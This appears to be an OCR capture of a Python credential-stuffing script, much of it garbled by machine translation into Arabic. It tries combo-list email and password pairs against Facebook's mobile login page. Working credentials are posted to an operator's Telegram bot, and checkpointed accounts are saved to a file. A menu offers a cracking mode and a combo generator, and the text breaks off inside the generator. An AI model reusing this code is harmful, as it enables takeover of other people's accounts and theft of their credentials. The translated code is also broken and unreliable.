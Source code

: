 
     uuid استيراد
باستثناء :
    نظام التشغيل . النظام ( "pip install uuid" )

جرب :
    من  الاستيراد العشوائي  * 
باستثناء :
    نظام التشغيل . systeam ( "تثبيت عشوائي" )

جرب :
     سلسلة الاستيراد
باستثناء :
    نظام التشغيل . نظام ( "سلسلة تثبيت نقطة" )

جرب :
     طلبات الاستيراد
باستثناء :
    نظام التشغيل . النظام ( "طلبات تثبيت النقطة" )

جرب :
    من  استيراد user_agent  create_user_agent 
باستثناء :
    نظام التشغيل . النظام ( "pip install user_agent" )

جرب :
    من  تاريخ  استيراد  ووقت وتاريخ
باستثناء :
    نظام التشغيل . النظام ( "تاريخ تثبيت النقطة" )

جرب :
     وقت الاستيراد
باستثناء :
    نظام التشغيل . النظام ( "وقت تثبيت النقطة" )
آخر :
    نظام التشغيل . نظام ( "واضح" )
    جرب :
        استيراد  pyfiglet
    باستثناء :
        نظام التشغيل . النظام ( "pip install pyfiglet" )
    آخر :
        نظام التشغيل . نظام ( "واضح" )
        استيراد  pyfiglet ، نظام التشغيل
        من  وقت  استيراد  النوم
        استيراد  متصفح الويب
        Z  =  ' \ x1b [2 ؛ 31 م'
        G  =  ' \ x1 ب [1 ؛ 32 م'            
        استيراد  عشوائي ، uuid ، طلبات ، سلسلة
        من  استيراد user_agent  create_user_agent 
        من  تاريخ  استيراد  ووقت وتاريخ
        من  الاستيراد العشوائي  * 
        من  وقت  استيراد  النوم
         طلبات الاستيراد ، نظام التشغيل ، عشوائي ، json ، خيوط ، أسرار ، uuid
        من  كولوراما  استيراد  فور ، ستايل
        من  وقت  استيراد  النوم
        من  تاريخ  استيراد  ووقت وتاريخ
        من  أسرار  استيراد  token_hex
        من  uuid  استيراد  uuid4
        من  استيراد user_agent  create_user_agent 
        من  uuid  استيراد  uuid4
Z  =  ' \ 033 [1؛ 31m'  # احمر
X  =  ' \ 033 [1؛ 33m'  # أصفر
Z1  =  ' \ 033 [2؛ 31m'  # احمر ثاني
F  =  ' \ 033 [2 ؛ 32 م'  # اخضر
أ  =  ' \ 033 [2؛ 34 م' # ازرق
C  =  ' \ 033 [2؛ 35m'  # وردي
B  =  ' \ 033 [2؛ 36m' # سمائي
K  =  ' \ 033 [1؛ 34m'  # ازرق فاتح
def  AAlosh ( ق ):
	لـ  AAlosh  في  s  +  ' \ n ' :
		sys . stdout . اكتب ( هلوش )
		sys . stdout . تدفق ()
		النوم ( 50.  /  700 )
		sys . خروج ()   
		
  
        
AAlosh  =  F + "" "
   Suhaib Saqr 🤚               
             
               برقية: @ horo4
================================
                                            اشترك في قنواتي لتشتغل لاداه
================================
\ 033 [1 ؛ 33 م
[1] crak دخول اداه صيد فيس
\ 033 [2؛ 36 م
[2] crak صنع كومبو ارقام                     
""                       

نظام التشغيل . نظام ( "واضح" )
ص  =  الطلبات . جلسة ()
طباعة ( AAlosh )



الأدوات  =  الإدخال ( C + 'اختر:' + B )
# ================================

إذا ( الأدوات  ==  '1' ):
	نظام التشغيل . نظام ( "واضح" )
	
	متصفح الويب . فتح ( 'https://youtu.be/Q1BYx2n2Wm0' )
	نظام التشغيل . نظام ( "واضح" )
	المعرف  =  الإدخال ( X + "[" + Z + "!" + X + "]" + F +  "ID Bot: \ n " + B )
	متصفح الويب . فتح ( "https://2u.pw/Czlyf" )
	tok  =  input ( X + "[" + Z + "!" + X + "]" + F + 'TOken Bot: \ n ' + B )
	متصفح الويب . فتح ( "https://t.me/KaBousVIP" )
	ملف  =  إدخال ( X + "[" + Z + "!" + Z + "]" + F +  "combo: \ n " + B )
	طباعة ( ب )
	طباعة ( "-" * 50 )
	اللعنة =  فتح ( ملف ، 'r' )
	
	
	
	
	بينما  صحيح :
		المستخدم  =  اللعنة . readline (). انقسام ( ' \ n ' ) [ 0 ]
		الشميل  =  المستخدم . انقسام ( ':' ) [ 0 ]
		Aloshps  =  المستخدم . انقسام ( ':' ) [ 1 ]
		link  =  "https://mobile.facebook.com/login.php"
		data  = { 'email' : Aloshmil ، 'pass' : Aloshps }
		رؤوس  = {
'User-Agent' : 'Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B',
'Accept-Language' : 'en-US,en;q=0.5'}
		shot = requests.post(link, headers=headers, data=data).text
		if "xc_message" in shot:
			print(F+ ' Email ==> : ' + Aloshmil + ': pass ==> : ' + Aloshps)
			r.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text= Hi Pro Fishing Facebook From Alosh‌‌ \n ====================\n.√. Email   (  {Aloshmil}  )\n.√. password  (  {Aloshps}  )\n ====================\n By :- @BBBBBLL :-  Horo4 √ " )
		elif "checkpointSubmitButton-actual-button" in shot:
			print(X+ ' Email ==> : ' + Aloshmil + ': pass ==> : ' + Aloshps)
			r.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=			Hi Pro Fishing Facebook From Alosh‌‌  سيكور \n ====================\n.√. Email   (  {Aloshmil}  )\n.√. password  (  {Aloshps}  )\n ====================\n By :- @BBBBBLL :-  Horo4 √ " )
			
			with open("Cp.txt",'a') as ff:
				ff.write("Email : "+Aloshmil+"\nPass : "+Aloshps+"\n\n")     
				
			
		else:
			print(Z+ ' Email ==> : ' + Aloshmil + ': pass ==> : ' + Aloshps)
			
#alosh##################.########.####
		
#owowiiwiqiqqii

if (TOOLS == '2'):
	
	os.system('clear')
	
import random
make = "0987654321"
h = 0

while h<10000:
	c = str(''.join(random.cho
